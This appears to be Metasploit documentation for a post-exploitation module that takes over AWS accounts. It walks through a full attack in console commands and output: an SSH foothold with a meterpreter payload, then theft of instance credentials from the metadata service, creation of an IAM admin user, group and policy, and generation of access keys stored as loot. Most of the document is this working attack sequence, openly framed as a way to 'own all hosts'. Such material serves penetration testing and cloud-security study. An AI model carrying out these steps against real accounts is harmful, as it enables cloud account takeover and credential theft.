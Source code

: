 # aws_create_iam_user

aws_create_iam_user is a simple post module that can be used to take over AWS
accounts. Sure, it is fun enough to take over a single host, but you can own all
hosts in the account if you simply create an admin user.

## Privileges
This module depends on administrators being lazy and not using the least
privileges possible. Only on rare cases should instances have the following
privileges.

* iam:CreateUser
* iam:CreateGroup
* iam:PutGroupPolicy
* iam:AddUserToGroup
* iam:CreateAccessKey

## Establish a foothold
You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```

## Create IAM User

Now you can load `aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1`.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254:80 - looking for creds...
[*] Creating user: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] UserName: metasploit
[!] Arn: arn:aws:iam::097986286576:user/metasploit
[!] UserId: AIDA...
[!] CreateDate: 2016-11-21T17:59:50.010Z
[*] Creating group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] GroupName: metasploit
[!] Arn: arn:aws:iam::097986286576:group/metasploit
[!] GroupId: AGPAIENI6YTM5JVRQ2452
[!] CreateDate: 2016-11-21T17:59:50.554Z
[*] Creating group policy: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Adding user (metasploit) to group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Creating API Keys for metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] AccessKeyId: AKIA...
[!] SecretAccessKey: THE SECRET ACCESS KEY...
[!] AccessKeySelector: HMAC
[!] UserName: metasploit
[!] Status: Active
[!] CreateDate: 2016-11-21T17:59:51.967Z
[+] API keys stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
msf post(aws_create_iam_user) > exit -y
```

You can see that the API keys stored in loot. Want console access, use [aws_console](../../gather/aws_console.md)

```
$ cat ~/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt

{"AccessKeyId":"AKIA...","SecretAccessKey":"THE SECRET ACCESS KEY...","AccessKeySelector":"HMAC","UserName":"metasploit","Status":"Active","CreateDate":"2016-11-21T17:59:51.967Z"}
```